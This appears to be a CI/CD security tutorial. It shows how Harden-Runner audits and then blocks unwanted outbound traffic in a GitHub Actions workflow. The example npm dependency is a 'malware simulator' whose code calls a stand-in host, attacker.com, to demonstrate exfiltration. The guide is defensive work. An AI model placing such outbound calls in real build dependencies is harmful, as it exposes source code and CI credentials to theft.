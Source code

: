 # Filter Network Traffic

## Example Action: 
Description:
An example GitHub Actions workflow that allows unrestricted outbound network access, potentially exposing source code and CI/CD credentials.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is making a call to `https://attacker.com/`
```
https
  .get("https://attacker.com/", (res) => {
    // handle response
  }
```

## Steps to Identify the Vulnerability:
### Review Outbound Network Access:
Use `step-security/harden-runner@v2` in your workflow and then Run the workflow.
```
- uses: step-security/harden-runner@v2
  with:
    egress-policy: audit
```

After the workflow completes, check out the build logs. In the Harden-Runner step, you will see a link to security insights and recommendations.

## Steps to Mitigate the Vulnerability:
### Block calls to domains 
Analyze the output of the Harden-Runner step, it will give you insight from where the calls to unwanted domains are happening. You can either choose to replace such code or you can choose to block calls to all domains except the allowed domains which you configure. You can do this configuration by changing the `step-security/harden-runner@v2` step as follow
```
- name: Harden Runner
  uses: step-security/harden-runner@v2
  with:
    disable-sudo: true
    egress-policy: block
    allowed-endpoints: >
      ghcr.io:443
      github.com:443
      registry.npmjs.org:443
```


